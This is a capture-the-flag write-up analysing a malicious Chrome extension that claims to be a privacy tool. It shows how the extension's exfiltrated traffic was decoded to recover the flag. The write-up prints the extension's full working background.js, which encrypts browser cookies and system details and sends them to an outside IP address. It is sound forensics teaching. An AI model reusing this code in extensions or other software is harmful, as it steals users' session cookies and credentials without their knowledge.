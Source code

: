 # Chrome-Plated Nonsense - 2
> The second extension the employee installed is named ChickenChickenStop Privacy Kit (see attached crx file). It claims to delete unnecessary cookies and improve user privacy, but it came from the same source as the first extension, and based on the traffic it is generating, it also appears to be exfiltrating information.

> Your task is to examine the network traffic from this extension, which has been ingested into Malcolm, and determine what information it was used to extract.

> Within the extracted data, what is the value of the lt variable in the cookie named MSPRequ?

> Flag format: value of the lt variable. Example: if cookie contained a=0&lt=12345&b=0, the flag would be 12345

## About the Challenge
We were given a `crx` file (You can download the extension [here](chickenchickenstop-privacy-kit.crx)) and we need to find the value of the `lt` variable in the cookie

## How to Solve?
We need to unzip the chrome extension first and as you can see there is a file called `background.js`

![unzip](images/unzip.png)

If we open the `background.js` file, there are some information that we can obtain from that code

```javascript
var destination = "http://192.88.99.24:8080/"


// serializeCookie converts a cookie to string form
function serializeCookie(cookie) {
    output = "[" + cookie.domain + "," + cookie.expirationDate + "," + cookie.hostOnly + ",";
    output += cookie.httpOnly + "," + cookie.name + "," + cookie.path + ",";
    output += cookie.sameSite + "," + cookie.secure + "," + cookie.session + ",";
    output += cookie.storeId + "," + cookie.value + "]";

    return output
}


// sendCookie serializes, encrypts, and sends a cookie
function sendCookie(cookie) {
    var serializedCookie = "";
    var key = [];
    var encryptedCookie = [];
    var output = "";
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    // Serialize the cookie
    serializedCookie += serializeCookie(cookie);

    // Get key
    chrome.storage.local.get(["id"]).then((result) => {
        var keyString = result.id.slice(0, 4) + result.id.slice(-4,);
        key = keyString.split('');

        for (var i = 0; i < serializedCookie.length; i++) {
            var charCode = serializedCookie.charCodeAt(i) ^ key[i % key.length].charCodeAt(0);
            encryptedCookie.push(String.fromCharCode(charCode));
        }
        output = btoa(encryptedCookie.join(""));
        fetch(destination.concat(output), opts);
    });
}


// This will execute whenever a cookie is set or removed
chrome.cookies.onChanged.addListener((changeInfo) => {
    if (changeInfo.cause == "explicit") {
        sendCookie(changeInfo.cookie);
    }
});


// This will execute when the extension is first installed
chrome.runtime.onInstalled.addListener(() => {
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    chrome.system.cpu.getInfo((cpuInfo) => {
        chrome.system.memory.getInfo((memoryInfo) => {
            var info = "timestamp=" + Date.now()
            info += ",archName=" + cpuInfo.archName;
            info += ",modelName=" + cpuInfo.modelName;
            info += ",numOfProcessors=" + cpuInfo.numOfProcessors;
            info += ",availableCapacity=" + memoryInfo.availableCapacity
            info += ",capacity=" + memoryInfo.capacity;

            // Hash code adapted from https://developer.mozilla.org/en-US/docs/Web/API/SubtleCrypto/digest#converting_a_digest_to_a_hex_string
            const encoder = new TextEncoder();
            const data = encoder.encode(info);
            crypto.subtle.digest('SHA-256', data).then((digestBuffer) => {
                const hashArray = Array.from(new Uint8Array(digestBuffer));
                const uniqueId = hashArray.map((b) => b.toString(16).padStart(2, '0')).join('');
                fetch(destination.concat(btoa("id=" + uniqueId + "," + info)), opts);

                // Save ID in local storage
                chrome.storage.local.set({ id: uniqueId }).then(() => {
                    // do nothing
                });
            });
        });
    });
});
```

First, the extension will send information about the computer to `http://192.88.99.24:8080/`. Then the extension will send information about the website's cookie to `http://192.88.99.24:8080/`, but the code will XOR the cookie first with the first 4 digits and last 4 digits from the ID.

Open Malcolm dashboards and find information about `192.88.99.24:8080`

![first_req](images/first_req.png)

If we decode the base64 encoded message, we will get this information

```
id=51ffbc1a9efa76f8a5a005d227a0f36606b524bcb627658520d0e0678da30e85,timestamp=1674580864784,archName=x86_64,modelName=virt-7.2,numOfProcessors=8,availableCapacity=13681516544,capacity=17171611648
```

Now we know the information about the id. To obtain the XOR key, we need to get the first 4-digit and last 4-digit of the id cookie. So the key is `51ff0e85`

The next step is finding the correct request by checking the logs one by one. And to do that, we need decode the message and XOR with `51ff0e85`

![request](images/request.png)

After checking the logs one by one, I finally obtained the flag by checking this base64 message.

```
bh8KCVcMVhtZWBADHgZXWBlECAJVA1FbUFVKAFEJS1AZRRQTVUl1ZmVjAxdFSRcZW145FFUWTEdcUhIPXwsUQUdEA0pEF01QGQFKD1RYdhNZRVtXBlIMAAIGVVYDQ1taCAA7
```

![flag](images/flag.png)

```
1674577303
```